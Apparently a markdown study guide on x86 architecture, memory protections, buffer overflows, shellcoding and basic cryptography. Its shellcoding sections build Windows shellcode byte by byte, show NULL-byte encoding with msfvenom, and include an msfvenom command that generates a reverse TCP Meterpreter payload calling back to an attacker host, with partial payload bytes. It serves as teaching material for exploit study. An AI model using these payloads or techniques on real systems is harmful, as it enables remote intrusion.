


# System Security 

## Architecture Fundamentals

### Introduction - Study Guide

The purpose of this section is to give you the fundamental concepts needed to help you improve your skills in topics such as fuzzing, exploit development, buffer overflows, debugging, reverse engineering and malware analysis.

We will focus on attacking techniques such as the buffer overflows (BOF). We explore how BOF works and how we can fuzz and reverse engineer applications in order to find vulnerabilities. Finally, utilizing those vulnerabilities, we will see how to exploit them to execute arbitrary code on the target machine.

### Architecture Fundamentals - Study Guide

**CPU, ISA and Assembly**.

The *Central Process Unit* (CPU) is the device in charge of executing the machine code of a program.
The *machine code*, or machine language, is the set of instructions that the CPU processes. Each *CPU instruction* is a primitive command that executes a specific operation.

*CPU instructions* are represented in hexadecimal (HEX) format. Due to its complexity, it is impossible for humans to utilize it in its natural format.
Therefore, the same machine code gets translated into mnemonic code (a more readable language); this is called the *assembly language* (ASM). The two most popular are NASM (Netwide Assembler) and MASM (Microsoft Macro Assembler). The assembler we are going to use is NASM.

Each CPU has its own *instruction set architecture* (ISA).
One of the most common ISA is the x86 instruction set (or architecture) originated from the Intel 8086. The x86 acronym identifies 32-bit processors, while x64 (aka x86_64 or AMD64) identifies the 64-bit versions.

**Registers**.

The number of bits, 32 or 64, refers to the width of the *CPU registers*.
Each CPU has its fixed set of registers that are accessed when required. You can think of registers as temporary variables used by the CPU to get and store data.

We will focus on a specific group of registers: General Purpose Registers (GPRS).

In addition to the eight general purposes registers, there is also another register that will be important for our
purposes, the EIP (x86 naming convention). The *Instruction Pointer* (EIP) controls the program execution by storing a pointer to the address of the next instruction (machine code) that will be executed. It tells the CPU where the next instruction is.

**Process Memory**.

When a process runs, it is typically organized in memory divided into four regions: Text, Data, the Heap, and the Stack.



- The *Text* region, or instruction segment, is fixed by the program and contains the program code (instructions). This region is marked as read-only since the program should not change during execution.
- The *Data* region is divided into initialized data and uninitialized data. Initialized data includes items such as static and global declared variables that are pre-defined and can be modified.
- The uninitialized data, named Block Started by Symbol (*BSS*), also initializes variables that are initialized to zero or do not have explicit initialization (e.g. `static int t`).
- Next is the *Heap*, which starts right after the BSS segment. During the execution, the program can request more space in memory via brk and sbrk system calls, used by `malloc`, `realloc` and `free`. Hence, the size of the data region can be extended.
- The last region of the memory is the *Stack*. For our purposes, this is the most important structure we will deal with.

**Stack**.

The Stack is a *Last-in-First-out* (LIFO) block of memory. It is located in the higher part of the memory. You can think of the stack as an array used for saving a function's return addresses, passing function arguments, and storing local variables.
The purpose of the ESP register (*Stack Pointer*) is to identify the top of the stack, and it is modified each time a value is pushed in (PUSH) or popped out (POP).

It was decided that the Heap would start from lower addresses and grow upwards and the Stack would start from the end of the memory and grow downward.
This is probably due to historical reasons when the memory in old computers was limited and divided into two parts: Heap and Stack.

It is important to understand that the value popped from the stack is not deleted (or zeroed). It will stay in the stack until another instruction overwrites it.

*Procedures and functions*.

Now that we know more about the Stack, we will investigate how *procedures* and *functions* work. It is important to know that procedures and functions alter the normal flow of the process. When a procedure or a function terminates, it returns control to the statement or instruction that called the function.

Functions contain two important components, the *prologue* and the *epilogue*.
- The prologue prepares the stack to be used, similar to putting a bookmark in a book.
- When the function has completed, the epilogue resets the stack to the prologue settings.

*Stack frames*.

The Stack consists of logical *stack frames* (portions/areas of the Stack), that are PUSHed when calling a function and POPped when returning a value.

The stack frame is defined by the EBP (*Base Pointer*) and the ESP (*Stack pointer*). Because we don't want to lose the old stack frame information, we have to save the current EBP on the Stack.

When a subroutine, such as a function or procedure, is started, a stack frame is created and assigned to the current ESP location (top of the stack). This allows the subroutine to operate independently in its own location in the stack.
When the subroutine ends, two things happen:
1. The program receives the parameters passed from the subroutine.
2. The Instruction Pointer (EIP) is reset to the location at the time of the initial call.

When the program enters a function, the *prologue* is executed to create the new stack frame.
When the program executes a return statement, the previous stack frame is restored thanks to the *epilogue*.

**Endianness**.

*Endianness* is the way of representing (storing) values in memory.
- In the *big-endian* representation, the least significant byte (LSB) is stored at the highest memory address. While the most significant byte (MSB) is at the lowest memory address.
- Respectively, in the *little-endian* representation, the least significant byte (LSB) is stored at the lower memory address, while the most significant byte is at the highest memory address.

**NOPs**.

*No Operation instruction* (NOP) is an assembly language instruction that does nothing. When the program encounters a NOP, it will simply skip to the next instruction. In Intel x86 CPUs, NOP instructions are represented with the
hexadecimal value `0x90`.

### Security Implementations - Study Guide

Here is an overview of the *security implementations* that have been developed during the past several years to prevent, or impede, the exploitation of vulnerabilities such as Buffer Overflow.
- *Address Space Layout Randomization* (ASLR)
- *Data Execution Prevention* (DEP)
- *Stack Cookies* (Canary).

**ASLR**.

The goal of *Address Space Layout Randomization* (ASLR) is to introduce *randomness* for executables, libraries, and stacks in the *memory address space*. This makes it more difficult for an attacker to predict memory addresses and causes exploits to fail and crash the process.
When ASLR is activated, the OS loads the same executable at different locations in memory every time.

It is important to note that ASLR is not enabled for all modules. This means that, even if a process has ASLR enabled, there could be a DLL in the address space without this protection which could make the process vulnerable to the ASLR bypass attack.

**DEP**.

*Data Execution Prevention* (DEP) is a defensive hardware and software measure that prevents the execution of code from pages in memory that are *not explicitly marked as executable*. The code injected into the memory cannot be run from that region. This makes buffer overflow exploitations even harder.

**Canary**.

The *canary* (or stack cookie) is a security implementation that places a value next to the return address on the stack.
The function *prologue* loads a *value* into this location, while the *epilogue* makes sure that the value is intact. As a result, when the epilogue runs, it *checks* that the value is still there and that it is correct.

If it is not, a buffer overflow has probably taken place. This is because a buffer overflow usually overwrites data in the stack.

## Assembler Debuggers and Tool Arsenal

### NASM - Study Guide

(09/29) Assemble asm file using nasm: `nasm -f win32 test.asm -o test.obj`.
(10/29) Link obj with dll files using GoLink: `GoLink /entry _main test.obj kernel32.dll user32.dll -o test.exe`.

### Tools Arsenal - Study Guide

(08/32) Compile the C file using gcc: `gcc -m32 test.c -o test.exe`.
(25/32) Decompile the exe file using objdump: `objdump -d -MIntel test.exe > test_disassembled.txt`.
Compile the Cpp file using g++: `g++ -m32 test.cpp -o test.exe`.

## Buffer Overflows

### Understanding Buffer Overflows - Study Guide

The term buffer is loosely used to refer to any area in memory where more than one piece of data is stored. An overflow occurs when we try to fill more data than the buffer can handle.

This means that whatever was in the memory location right after the buffer, is overwritten.

This causes the application to crash. But an attacker may be able to make the program executes specific code, allowing the attacker to gain control of the program flow.

Now let's examine this same example by observing what is happening in the stack. This will help to understand what happens when an overflow occurs.



What is getting overwritten? As you can see in the previous stack representation, this data includes the EBP, the EIP and all the other bytes related to the previous stack frame.

If the EIP is overwritten, once the epilogue takes place, the program will try to return to a completely wrong address. Remember that EIP points to the next instruction. An attacker can get the control of the program flow and return the function to a specific memory address location. This is where it is important to know memory addresses of certain registers.

### Finding Buffer Overflows - Study Guide

Any application that uses unsafe operations, such as those below, might be vulnerable to buffer overflows.
- `strcpy`
- `strcat`
- `gets`/`fgets`
- `scanf`/`fscanf`
- `vsprintf`
- `printf`
- `memcpy`.
But it actually depends on how the function is used.

Any function which carries out the followingope rations may be vulnerable to buffer overflows:
- Does not properly validate inputs before operating
- Does not check input boundaries.
However, buffer overflows are problems of unsafe languages, which allow the use of pointers or provide raw access to memory.

All the interpreted languages such as C#, Visual Basic, .Net, JAVA, etc. are safe from such vulnerabilities.
Moreover, buffer overflows can be triggered by any of the following buffer operations:
- User input
- Data loaded from a disk
- Data from the network.

If you are the developer of the software and you have access to the source code, such as static analysis tools such as splint or Cppcheck, such tools will try to detect not only buffer overflows but also some other types of errors.

When a crash occurs, be prepared to hunt for the vulnerability with a debugger (the most efficient and well-known technique). Some companies use cloud-fuzzing to brute-force crashing (using file-based inputs). Whenever a crash is found, it is recorded for further analysis.
A dynamic analysis tool like a fuzzer or tracer, which tracks all executions and the data flow, help in finding problems.

However, a large number of vulnerabilities are un-exploitable. Almost 50% of vulnerabilities are not exploitable at all, but they may lead to DOS (denial of service attacks) or cause other side-effects.

### Exploiting Buffer Overflows - Study Guide

(11/53) Generate a payload of fixed length: `ruby pattern_create.rb -l 100`.
(13/53) Finding the offset to a specific address: `ruby pattern_offset.rb -q 61413761`.

(15/53) Configure the working folder for Mona: `!mona config -set workingfolder C:\ImmunityLogs\%p`.
(16/53) Generate a payload of fixed length: `!mona pc 100`.
(18/53) Find the offset to a specific address: `!mona po 61413761`.

(29/53) Find the jump to the ESP in a specific dll: `./findjmp.exe kernelbase.dll esp`.
(32/53) Find the jump to the ESP in a specific dll using Mona: `!mona jmp -r esp -m kernelbase.dll`.

Search for a JMP ESP (FFE4), inside a specific dll: `!mona find -s "\xff\xe4" -m kernelbase.dll`.

## Shellcoding

### Execution of a Shellcode - Study Guide

Once an attacker has identified a vulnerable application, his first objective is to inject shellcode in the software. Then, when the shellcode is successfully injected, the instruction pointer register (`EIP`) is adjusted to point to the shellcode. At this point, the shellcode runs unrestricted.

But, the EIP is not the only method for execution of shellcode. It is possible for a shellcode to execute when an SEH (Structured Exception Handling) frame activates. The SEH frames store the address to jump to when there is an *exception*, such as division by zero.
By *overwriting the return address*, the attacker can take control of the execution.

The shellcode can work two ways:
1. it can get sent through the network (**remote** buffer overflows)
2. or through the **local** environment.

### Types of Shellcode - Study Guide

A **Local** shellcode is used to exploit local processes in order to get higher privileges on that machine. These shellcodes are also known as **Privilege Escalation Shellcodes**.
A **Remote** shellcode is sent through the network along with an exploit. The exploit will allow the shellcode to be injected into the process and executed. **Remote Code Execution** is another name for this kind of exploitation.

The goal of remote shellcodes is to provide remote access to the exploited machine by means of common network protocols such as TCP/IP.
Remote shellcodes can be sub-divided based on how this connection is set up:
- **Connect back** shellcode. It initiates a connection back to the attacker's machine.
- **Bind shell** shellcode. It binds a shell (or command prompt) to a certain port on which the attacker can connect.
- **Socket reuse** shellcode. It establishes a connection to a vulnerable process that does not close before the shellcode is run. The shellcode can then re-use this connection to communicate with the attacker. However, due to their complexity, they are generally not used.

**Staged** shellcodes are used when the shellcode size is bigger than the space that an attacker can use for injection (within the process). In this case, a small piece of shellcode (Stage 1) is executed. This code then fetches a larger piece of shellcode (Stage 2) into the process memory and executes it.
Staged shellcode may be local or remote and can be sub-divided into *Egg-hunt* shellcode and *Omelet* shellcode.

*Egg-hunt* shellcode is used when a larger shellcode can be injected into the process but, it is unknown where in the process this shellcode will be actually injected. It is divided into two pieces:
- A small shellcode (egg-hunter). The only thing the egg-hunter shellcode has to do is searching for the bigger shellcode (egg) within the process address space. At that point, the execution of the bigger shellcode begins.
- The actual bigger shellcode (egg). 

*Omelet* shellcode is similar to the egg-hunt shellcode. However, we do not have one larger shellcode (egg) but a number of smaller shellcodes (eggs). They are combined together and executed.
This type of shellcode is also used to avoid shellcode detectors because each individual egg might be small enough not to raise any alarms but collectively they become a complete shellcode.

**Download and execute** shellcodes do not immediately create a shell when executed. Instead, they download an executable from the Internet and execute it. This executable can be a data harvesting tool, malware or simply a backdoor.

### Encoding of Shellcode - Study Guide

Shellcodes are generally encoded since most vulnerabilities have some form of restriction over data which is being overflowed.
For example, C string functions work till a `NULL` or `0` bytes are found.

For our testing purposes, this is extremely important. If our shellcode contains a `NULL` character, it will fail. So, shellcodes should be "Null-free" to guarantee the execution.

There are several types of shellcode encoding:
- *Null-free* encoding
- *Alphanumeric* and *printable* encoding.

Encoding a shellcode that contains `NULL` bytes means replacing machine instructions containing zeroes, with instructions that do not contain the zeroes, but that achieve the same tasks. This will result in a machine code representation tha is *NULL-free*.

For example, the follwoing instruction should be avoided because it has `00` within its machine code representation.

| Machine code | Assembly   | Comment           |
|--------------|------------|-------------------|
| B8 00000000  | MOV EAX, 0 | Set EAX to zero   |


### Debugging a Shellcode - Study Guide

Before actually using the shellcode on the target system, we would like to verify that it works. To do so, we need to copy the shellcode into the following C program:
```c
// You need to replace this string with your actual shellcode.
char code[] = "shell code will go here!";

int main(int argc, char **argv)
{
    int (*func)();
    func = (int (*)()) code;
    (int) (*func)();
}
```

After that, we need to compile and run the updated program to verify that it works. If it executes as we planned, it means that the shellcode works fine.

### Creating Our First Shellcode - Study Guide

Although there are many different tools and frameworks that we can use to generate shellcodes automatically, first we will show you how to manually create a shellcode from scratch.

Shellcode Goal: create a shellcode that will cause the thread to sleep for 5 seconds.
Function Needed: the sleep functionality is provided by the function `Sleep` in `kernel32.dll` and requires a single parameter, which specifies the amount of time to sleep in milliseconds:
```
VOID WINAPI Sleep(
	__in DWORD dwMilliseconds
);
```

Let's use a *Disassembler* to obtain the address of the `Sleep` function; this is required because we will create a small shellcode that calls this function.
We can obtain the address in different ways and with different tools. To use **Immunity Debugger**, we have to open the `kernel32.dll` file, right-click on the disassemble panel and select `Search for > Name in all modules`.
The `Sleep` we are looking for is in the `.text` region at the address `0X757D82D0`.

Note: in order for this test to work correctly, you have to know the address of the `Sleep()` function on your own machine.
Remember that not only do different OS may have different addresses, if ASLR is enabled (like it is on our machine), the address is randomized.

The next step is to *create the ASM code that calls this function:
```asm
xor eax, eax			; zero out the eax register
mov eax, 5000			; move the milliseconds value into eax (5000)
push eax;				; push the function parameter onto the stack
mov ebx, 0x757d82d0		; move the address of Sleep into ebx
call ebx				; call the function Sleep(ms)
```
As you already know, when a function gets called, its parameters are pushed to the stack. Therefore, our ASM code first push the parameter to the stack and then call the function `Sleep` by using its address.

Note: we can create many different versions of the same code.

Next, we need to compile our ASM code:
`nasm -f win32 shellcode.asm -o shellcode.obj`:
```
shellcode.obj:     file format pe-i386

Disassembly of section .text:

00000000 <.text>:
   0:   31 c0                   xor    eax,eax
   2:   b8 88 13 00 00          mov    eax,0x1388
   7:   50                      push   eax
   8:   bb d0 82 7d 75          mov    ebx,0x757d82d0
   d:   ff d3                   call   ebx
```

Once we have the ASM code compiled, we can extract (by decompiling it) the machine code and use it for our shellcode:
`objdump -d -Mintel shellcode.obj`.

Our shellcode is almost done, we just need to do some cleaning up. We need to edit it and remove the spaces and add the `\x` prefix.

At the end of the process, we will have something like the following:
```c
char code[] =
"\x31\xc0"
"\xb8\x88\x13\x00\x00"
"\x50"
"\xbb\xd0\x82\x7d\x75"
"\xff\xd3";

int main(int argc, char **argv)
{
	int (*func)();
	func (int (*)()) code;
	(int) (*func)();
}
```

Now we can compile the program and run it. If the shellcode works, you will see that the process waits 5 seconds and then crashes.

### A More Advanced Shellcode - Study Guide

As you may have noticed, writing shellcodes requires a good understanding of the target operating system. If you want to write a Windows shellcode that spawns a shell, you will have to find and study the function that does this.

For example, you may want to use `ShellExecute` to spawn the shell, but you will need to set two parameters for the function to work.

Notice that depending on the function you want to use, you need to be sure that the target program loads the DLL that exposes the function.
For instance, if you want to use `ShellExecute`, you must be sure that the program loads `Shell32.dll`.

This time we will write the code in C++ and then compile and decompile it in order to get the machine codes to use for our shellcode.

Note: each compiler adds its own code inside tha resulting binary.

This simple code will spawn a new command prompt and will maximize the window:
```c++
#include <windows.h>

int main(int argc, char** argv)
{
	ShellExecute(0, "open", "cmd", NULL, 0, SW_MAXIMIZE);
}
```

Once we have the source code ready, we just need to compile it.
Additionally, if you are interested, you can inspect the program execution with Immunity Debugger.

Once the main function starts, it sets the stack frame and then it pushes the arguments needed for the `ShellExecuteA` call. Notice that `ShellExecuteA` is the ANSI name of the function that will be used.

The biggest difference from the previous example is that this time we have more parameters to push to the stack. Moreover, we will also have to deal with strings such as "cmd" and "open".
*Dealing with strings* means that we have to:
1. Calculate their hexadecimal value
2. Push the string 
3. Push a pointer to the string into the stack.

In the compiled version of the program, these strings are taken from the `.data` section. As you can imagine, this is something that we cannot do while sending our shellcode (since the `.data` section will contain something different).
Therefore, we will have to push the strings to the stack and then pass a pointer to the string to the `ShellExecutionA` function (we cannot pass the string itself).

In order to tell our shellcode to push the strings into the stack, we need to add the `PUSH` bytecode at the beginning of each line.
Please note that when pushing a byte, the `PUSH` opcode will be `\x6A`, while when we push a word or a dword, the bytecode is `\x68`. Different opcodes are used for registers too.
If you do not know the opcode of a specific assembly instruction, you can use online tools such as [**defuse.ca disassembly**](https://defuse.ca/online-x86-assembler.htm) or offline tools like Immunity, Metasm, etc.

There are few important things to remember when *pushing strings into the stack*:
- They must be exactly *4 byte aligned*
- They must be pushed *in reverse order*
- Strings must be *terminated with `\x00`* otherwise the function parameter will load all the data in the stack.
String terminators introduce a problem with the NULL-free shellcode.

Let's start creating our shellcode.

The first thing to do is to convert the strings ("cmd" and "open") that we will push into the stack:
```
"\x68\x63\x6d\x64"				// PUSH "cmd" onto the stack
"\x68\x6F\x70\x65\x6e"			// PUSH "open" onto the stack
```
Notice that these instructions are not complete.
The first `PUSH` ("open") is not 4 byte aligned and there isn't the string terminator at the end.
The second `PUSH` ("cmd") is 4 bytes, but we have to terminate the string.

Therefore, we will edit the shellcode as follows:
```
"\x68\x63\x6D\x64\x00"			// PUSH "cmd" and terminates the string \x00
										// Now it is 4-byte aligned
"\x6a\x00"							// PUSH 0: Terminates the string "open" by
										// directly pushing \x00 onto the stack
"\x68\x6F\x70\x65\x6e"			// PUSH "open"
```

Since the `ShellExecuteA` function arguments require a pointer to these strings (and not the string itself), we will have to save a pointer to each string using a register.
Therefore, after pushing the strings to the stack, we will save the current stack position into a register.
When we push the string, `ESP` will be aligned to the top of the stack. Hence, it will point to the string itself.

Storing this value in a register (such as `EBX` or `ECX`) allows us to save a pointer to that string. Then we will just have to pass the pointer as an argument of the function.

```
"\x68\x63\x6d\x64\x00"			// PUSH "cmd" - string already terminated
"\x8B\xDC"							// MOV EBX, ESP
										// puts the pointer to the text "cmd" into EBX
"\x6a\x00"							// PUSH the string terminator for "open"
"\x68\x6F\x70\x65\x6e"			// PUSH "open"
"\x8B\xCC"							// MOV ECX, ESP
										// puts the pointer to the text "open" into ECX
```

In order to find the address of the function, we will use the **arwin** tool:
`arwin.exe Shell32.dll ShellExecuteA`:
```
arwin win32 address resolution program - by steve hanna - v.01
ShellExecuteA is located at 0x762bd970 in Shell32.dll ←
```

This is our complete shellcode:
```
"\x68\x63\x6d\x64\x00"			// PUSH "cmd" - string already terminated
"\x8B\xDC"							// MOV EBX, ESP
										// puts the pointer to the text "cmd" into EBX
"\x6a\x00"							// PUSH the string terminator for "open"
"\x68\x6F\x70\x65\x6e"			// PUSH "open"
"\x8B\xCC"							// MOV ECX, ESP
										// puts the pointer to the text "open" into ECX

"\x6a\x03"							// PUSH 3, the last argument
"\x33\xC0"							// XOR EAX, EAX
										// zero out the EAX register
"\x50"								// PUSH EAX: push the second to last argument: 0
"\x50"								// PUSH EAX: push the third to last argument: 0
"\x53"								// PUSH EBX: push pointer to string "cmd"
"\x51"								// PUSH ECX: push pointer to string "open"
"\x50"								// PUSH EAX: push the first argument: 0
"\xB8\x70\xD9\x2b\x76"			// MOV EAX, 762BD970: move ShellExecuteA address into EAX
"\xff\xD0"							// CALL EAX: call the function ShellExecuteA 
```

Now we can test our shellcode by using the following C++ code:
```c++
#include <windows.h>
char code[] =
"\x68\x63\x6d\x64\x00"			// PUSH "cmd" - string already terminated
...
;

int main(int argc, char **argv)
{
	LoadLibraryA("Shell32.dll");	// Load shell32.dll library
	int (*func)();
	func (int (*)()) code;
	(int) (*func)();
}
```
Notice that since the compiler does not automatically load the `Shel132.dll` library in the program, we have to force the program to load it with the instruction `LoadLibraryA("Shell32.dll")`.

**NULL-free shellcode**.

If we try to use a shellcode with NULL bytes against a BOF vulnerability that uses a string function (such as `strcpy`), it will fail. This happens because when `strcpy` encounters the `\x00` byte, it stops copying data to the stack.
Therefore, we have to find a way to make our shellcode NULL-free.

There are two main techniques to do that:
- We can *manually edit* the shellcode so that it doesn't contain the string terminator. In other words, *use different instructions that perform the same operations*, but do not have NULL bytes.
- We can *encode and decode* the shellcode.

**Manual Editing**.

Previous version of the shellcode:
```
"\x68\x63\x6d\x64\x00" 			// PUSH "cmd" - string already terminated
```

Let's see how we can edit our shellcode in order to avoid the string terminator.
We can subtract (or add) a specific value in order to remove `00`. Let's say we subtract `11111111` from
`00646d63`. We will obtain `EF535C52`, which does not contain any string terminator.
Notice that instead of `11111111` we can use any value that does not contain `00` and that does not give a resulting value containing `00`.

The new NULL-free bytecode:
```
"\x33\xDB"							// XOR EBX, EBX: zero out EBX
"\xbb\x52\x5c\x53\xef"			// MOV EBX, EF535C52
"\x81\xc3\x11\x11\x11\x11"		// ADD EBX, 11111111 (now EBX contains 00646d63)
"\x53"								// PUSH EBX
```
As we can see, the new shellcode does not contain any string terminators, and the result of the operations is the same.

**Encoder tools**.

Although we can create our own encoder, there are some freely available tools that will help us to automatically do that. One of the easiest to use is **msfvenom**.

Previous version of the shellcode:
```
"\x68\x63\x6D\x64\x00\x8B\XDC\x6a\x00\x68\x6F\x70\x65\x6E\x8B\xCC\x6a\x03\x33\xC0\x50\x50\x53\x51\x50\xB8\x70\xD9\x46\x76\xff\xD0"
```
We want to use msfvenom in order to encode it and make the shellcode NULL-free.

First, we have to convert our shellcode in a binary file:
`echo -ne "x68\x63\x6d..." > binshellcode.bin`: where `-n` is used to not output the trailing newline, `-e` enables interpretation of backslash escapes.

`hexdump binshellcode.bin`:
```
0000000 6368 646d 8b00 6adc 6800 706f 6e65 cc8b 0000010 036a c033 5050 5153 b850 d970 7646 d0ff 0000020
```

`cat binshellcode.bin | msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f c -b '\x00'`: where `-b '\x00'` is used to specify a list of (bad) characters to avoid when generating the shellcode, `-p -` to read the custom payload from the stdin, `-e x86/shikata_ga_nai` specifies the encoder to use, `-f c` sets the output format.

msfvenom will print the shellcode to the terminal:
```
"\xbf\x4b\x46\x47\x2c\xda\xc3\xd9\x74\x24\xf4\x5b\x31\xc9\xb1" "\x09\x31\x7b\x12\x03\x7b\x12\x83\xa0\xba\xa5\xd9\x5e\x20\x47" "\x46\x9e\x2d\x4b\xec\x9e\x59\x1b\x81\xfb\xf7\x68\xad\x69\x0b" "\x5c\xee\x3d\x5b\xf1\xbf\xed\xe3\x85\xe6\x4b\x62\x99\xc9"
```
Notice that this is NULL-free.

Although in our example here, we're able to determine the bad character for our vulnerable program to be a NULL byte (`\x00`), there are many cases where there are often more than one bad character that we can't use when developing our exploit.
We may need to account for the newline (`\n`, `\x0A`) character for instance.

### Shellcode and Payload Generators - Study Guide

Since creating custom shellcodes may be time-consuming, throughout the year's many powerful tools have been developed to enhance and automate the entire process. The most famous tools that allow us to automatically generate shellcodes and payloads are **msfvenom**, the **backdoor factory** and **veil-framework**.

Msfvenom.

`msfvenom --list payloads`: to list all the available payloads.
`msfvenom -p <Payload> --payload-options`: to list all the available options for a specific payload.
Example: `msfvenopm -p windows/messagebox TEXT="My first msfvenom shellcode" -f c --platform windows -a x86`.

Let's now generate a reverse TCP Meterpreter payload.
`msfvenom --list payloads | grep -i "Meterpreter"`.
`msfvenom -p windows/meterpreter/reverse_tcp --payload-options`.
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackerIP> LPORT=<AttackerPort> -f c`:
```c
unsigned char buf[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
...

```

We did not specify NULL bad characters (`-b '\x00'`). Indeed, we obtain a shellcode containing NULL bytes.
This is not a problem, since we are going to use it in the `shellcode.cpp` program, which does not contain any string function.

## Cryptography and Password Cracking

### Classification - Study Guide

Cryptography concentrates on four main issues:
- Authentication. Claims made by or about the subject are true
- Confidentiality. Information is accessible only to those authorized to have access
- Integrity. Message has not been manipulated/altered in the transfer
- Non-repudiation. Ensuring that a party in a dispute cannot repudiate, or refute the validity of a statement.

Based on how the keys are used, there are 2 major divisions:
- Symmetric-key cryptography
- Public-key cryptography.

Based on how the plaintext is handled, there are 2 different classes of algorithms:
- Block Cipher: they handle data in blocks, like chunks of 8 bytes or 16 bytes (e.g. DES, AES).
- Stream Cipher: Data is handled one byte at a time (e.g. RC4).

### Cryptographic Hash Function - Study Guide

A cryptographic hash function is a deterministic algorithm that produces a fixed length block of bits from a variable length input message. The output is usually called *hash* or *digest*.

Almost all cryptographic hashes and ciphers have what is called an *avalanche* effect. This means that a single bit changed in the message will cause a vast change in the final output.

The cryptographic hash function has the following 3 properties:
1. Preimage resistance. It should be infeasible to find a message that has a given hash.
2. Second preimage resistance. Given an input message, it should be infeasible to find another message with the same hash.
3. Collision resistance. It should be infeasible to find two different messages with the same hash. Such a pair if found, is called a hash collision.

### Public Key Infrastructure - Study Guide

The **Public Key Infrastructure** (PKI) is a set of hardware, software, people, policies, and procedures needed to
create, manage, store, distribute, and revoke digital certificates.
In cryptography, PKI relies upon a number of elements to make sure that the identity of an individual or an organization is effectively certified and verified by means of a certificate authority (CA).
The term PKI is sometimes erroneously used to denote public key algorithms, which do not require the use of a CA.

**X.509** is the standard for public key certificates. X.509 certificates are widely used in protocols like SSL/TLS, SET, S/MIME, IPsec and more.

A certificate *binds* a *public key* with an *identity* by means of *digital signature*. The signatures on a certificate are attestations by the certificate signer that the identity information and the public key are bound together.

In a PKI scheme, the signature assuring the identity will be of a **certification authority** (CA). The CA acts as a trusted third party. Who wants to verify the identity has to trust the CA.
The certificate can be used to verify that a public key belongs to an individual.
The identity information includes the name of a person or an organization, their address, and so forth.

**Digital signature** is a mechanism that allows to authenticate a message. It proves that the message is effectively coming from a given sender. It provides means by which it is possible to verify that the sender of a message really is who he's claiming to be.
It is much like a human signature on a paper.

**SSL**.

**Secure Sockets Layer** (SSL) is a protocol which is used to communicate over the Internet in secure fashion. It uses both *PKI* and *symmetric encryption* to create secure communication channels between two entities.

An SSL certificate has 2 purposes:
1. Provide proof of identity. **Authenticity** is verified by verifying the validity of the certificate (validating the digital signature). SSL ensures that no third party can tamper or alter the communication without the two entities to be aware of
that.
2. Provide a secure channel for transmitting data. **Confidentiality** is achieved by handshaking initial channel parameters encrypted with the SSL certificate public key of the web site.
A chain exists: Root CA's sign certificates of intermediate CA's that sign SSL certificates of websites.

The visitor of a website using SSL is presented with a certificate signed by a CA. He can validate the validity of the SSL certificate by validating its signature.
To validate a signature, the public key of the signer is required (this is located in the web browser). Web browsers store public keys of root CA's.

### Pretty Good Privacy (PGP) - Study Guide

**Pretty Good Privacy** (PGP) is a (Windows) computer program that provides cryptographic privacy and authentication. It is used to encrypt files, apply digital signature and enforce integrity.

PGP encryption uses **public-key cryptography** and includes a system which binds the public keys to an e-mail address. For simplicity a **web of trust** model is used over a PKI model with CA's signing public keys. This has made PGP widespread because easy, fast and inexpensive to use.
The model works as long as we are sure that the public key used to send a message belongs effectively to the intended addressee. We have to put trust in that binding because there's no CA confirming that.

A PGP key has several parts. These fields are similar to those of an X.509 certificate. But a PGP key is not a certificate (no-one has signed it yet).

When using PGP, you will need to store:
+ Your own private keys. These will be put in a file and stored encrypted with a passphrase.
+ Your own public keys and the public keys of your friends and associates which are trusted by you. These will be put in a file in cleartext, called your keyring.

PGP can *digitally sign* a document, or actually a digest (e.g. SHA1) version of the document.
If you want to *encrypt* a message, PGP will first generate a symmetric key and then encrypt the symmetric key with the public key. The actual message is then encrypted with the symmetric key.
Thus, PGP puts together the ideas of symmetric-key encryption, public-key encryption, and hash functions, and also text compression, in a practical and usable way to enable you to *sign and/or encrypt email*.

**OpenPGP** is a set of standards which describes the formats for encrypted messages, keys, and digital signatures.
PGP and other similar products follow the OpenPGP standard (RFC 4880) for encrypting and decrypting data.

### Secure Shell (SSH) - Study Guide

**Secure Shell** (SSH) is a network protocol that allows data to be exchanged using a secure channel between two networked devices. A client connecting to a SSH server, will have shell access on the server, in a secure way.
Very common on Unix based systems, it is used as a secure replacement of Telnet as it allows remote access to a computer through a secure shell.

SSH, by means of public keys can enforce authentication for both client and server.
Moreover it is also used to create tunnels, port forwarding and secure file transfer.

